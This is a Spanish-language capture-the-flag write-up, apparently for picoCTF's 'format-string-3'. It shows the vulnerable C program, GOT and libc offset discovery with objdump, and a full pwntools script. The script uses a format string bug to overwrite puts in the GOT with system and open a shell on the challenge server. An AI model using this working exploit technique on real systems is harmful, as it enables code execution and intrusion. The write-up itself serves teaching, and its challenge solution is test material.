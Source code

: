 En este caso, se nos da un binario, su código fuente, una *libc* y los *ld shared object files* que se utilizaron para compilarlo.

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    char *all_strings[MAX_STRINGS] = {NULL};
    char buf[1024] = {'\0'};

    setup();
    hello();    

    fgets(buf, 1024, stdin);    
    printf(buf);

    puts(normal_string);

    return 0;
}
```

Para poder ejecutarlo debemos lanzar [[pwninit]]:

```bash
./format-string-3 
```  
```format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f3ef12833f0
%x
f13e1963
/bin/sh
```

Vemos que tenemos una vulnerabilidad de [[format string]]. Además, si de alguna forma pudiéramos convertir el último *puts* a una llamada a *system* obtendríamos una shell. Por suerte, podemos hacerlo modificando la [[GOT]] (*Global Offset Table*).

Para ver dicha tabla podemos usar [[objdump]]:

```bash
objdump -R vuln
```
```objdump
format-string-3:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000403fe8 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.34
0000000000403ff0 R_X86_64_GLOB_DAT  __gmon_start__@Base
0000000000403ff8 R_X86_64_GLOB_DAT  setvbuf@GLIBC_2.2.5
0000000000404060 R_X86_64_COPY     stdout@GLIBC_2.2.5
0000000000404070 R_X86_64_COPY     stdin@GLIBC_2.2.5
0000000000404080 R_X86_64_COPY     stderr@GLIBC_2.2.5
0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000404020 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4
0000000000404028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000404030 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
```

Vemos que la dirección de *puts* es `0x404018`. Queremos la de *system* sin embargo, tenemos la de *setvbuf*. Debemos encontrar la distancia entre estas dos en memoria:

```bash
objdump -T ./libc.so.6 | grep -E 'system|setvbuf'
```
```cmd
000000000004f760 g    DF .text  000000000000002d  GLIBC_PRIVATE __libc_system
000000000007a3f0 g    DF .text  0000000000000260  GLIBC_2.2.5 _IO_setvbuf
000000000007a3f0  w   DF .text  0000000000000260  GLIBC_2.2.5 setvbuf
000000000004f760  w   DF .text  000000000000002d  GLIBC_2.2.5 system
000000000014e1c0 g    DF .text  0000000000000068 (GLIBC_2.2.5) svcerr_systemerr
```

Tenemos las dos direcciones `0x7a3f0 -> setvbuf` y  `0x4f760 -> system`. Solo necesitamos el *offset* hasta el string `/bin/sh`:

```bash
./format-string-3
```
```format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f0949b743f0
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p        
0x7f0949cd29630xfbad208b0x7ffc4cb45cd00x1(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x7025702570257025
/bin/sh
```

Vemos que nuestro input empieza en la posición 38. Ya podemos tratar de crear un script en [[python]] y con [[pwntools]]:

```python
#! /bin/python3

from pwn import *

binary = './format-string-3'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

r = start()

# These addresses are a bit fucked up.
# Since we technically only need to change 3 bytes in the address to change 
# puts -> system  
# we change two bytes at addr 0x404018 and two at 0x404019:
got_puts_p1 = p64(0x404018) # p64 makes the hex address into bytes
got_puts_p2 = p64(0x40401a) 

# Firstly get the address that the program prints out for us:
r.recvuntil(b'libc: 0x')
setvbuf_int = int(r.recvline().strip(), 16)

# Now we calculate the differences between setvbuf and system commands:
# 0x7a3f0 -> setvbuf
# 0x4f760 -> system
libc_addr = setvbuf_int - 0x7a3f0    # Calculamos la dir base de libc
system_addr = libc_addr + 0x4f760    # Calculaos la direccion de system

# Some debug info
r.info('setvbuf = %#x', setvbuf_int)
r.info('system = %#x', system_addr)

# p64 converts from a hex number to a 64-bit address
system = p64(system_addr, endian='big')
system_p1 = int.from_bytes(system[6:8]) # The last two bits
system_p2 = int.from_bytes(system[4:6]) # The last two with one left

# We don't know which of these are greater so we want to sort them since the 
# format %n specifier is cumulative we have to write the smallest first.
system_printer = {
    system_p1 : got_puts_p1,
    system_p2 : got_puts_p2,
}

system_printer = dict(sorted(system_printer.items())) # sort it

# We want to calculate the difference between the first and second one
diffs = []
last = 0
for item in system_printer.items():
    diffs.append(item[0] - last)
    last = item[0]

payload_offset=38 + 4    # Tamaño de la propia direccion

# Compose the payload
payload_start = b''
payload_end = b''
for i, item in enumerate(system_printer.items()):
    payload_start += b'%%%dc' % diffs[i] + b'%%%d$hn' % payload_offset
    payload_end += item[1]
    payload_offset += 1

# This program segfaults like 1/10 times probably due to this:
padding = 8 - len(payload_start) % 8 

# This is how the payload will look:
# %[value]c%[index]$[write_type]%[value]c%[index]$[write_type][padding][address]
payload = payload_start + b'a'*padding + payload_end

# print the payload
print(payload.hex('-'))

r.sendline(payload)

# Give the user the iteractive shell
r.interactive()
```